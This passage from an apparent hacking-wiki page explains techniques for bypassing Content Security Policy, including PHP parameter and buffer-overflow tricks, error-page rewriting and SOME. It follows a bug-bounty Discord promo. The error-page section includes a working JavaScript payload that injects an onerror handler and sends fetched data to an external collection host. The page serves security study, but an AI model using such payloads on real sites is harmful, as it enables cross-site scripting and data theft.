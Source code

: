 Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## Unsafe Technologies to Bypass CSP

### PHP Errors when too many params

According to the [**last technique commented in this video**](https://www.youtube.com/watch?v=Sm4G6cAHjWM), sending too many parameters (1001 GET parameters although you can also do it with POST params and more that 20 files). Any defined **`header()`** in the PHP web code **won't be sent** because of the error that this will trigger.

### PHP response buffer overload

PHP is known for **buffering the response to 4096** bytes by default. Therefore, if PHP is showing a warning, by providing **enough data inside warnings**, the **response** will be **sent** **before** the **CSP header**, causing the header to be ignored.\
Then, the technique consists basically in **filling the response buffer with warnings** so the CSP header isn't sent.

Idea from [**this writeup**](https://hackmd.io/@terjanq/justCTF2020-writeups#Baby-CSP-web-6-solves-406-points).

### Rewrite Error Page

From [**this writeup**](https://blog.ssrf.kr/69) it looks like it was possible to bypass a CSP protection by loading an error page (potentially without CSP) and rewriting its content.

```javascript
a = window.open("/" + "x".repeat(4100))
setTimeout(function () {
  a.document.body.innerHTML = `<img src=x onerror="fetch('https://filesharing.m0lec.one/upload/ffffffffffffffffffffffffffffffff').then(x=>x.text()).then(x=>fetch('https://enllwt2ugqrt.x.pipedream.net/'+x))">`
}, 1000)
```

### SOME + 'self' + wordpress

SOME is a technique that abuses an XSS (or highly limited XSS) **in an endpoint of a page** to **abuse** **other endpoints of the same origin.** This is done by loading the vulnerable endpoint from an attacker page and then refreshing the attacker page to the real endpoint in the same origin you want to abuse. This way the **vulnerable endpoint** can use the **`opener`** object in the **payload** to **access the DOM** of the **real endpoint to abuse**. For more information check:
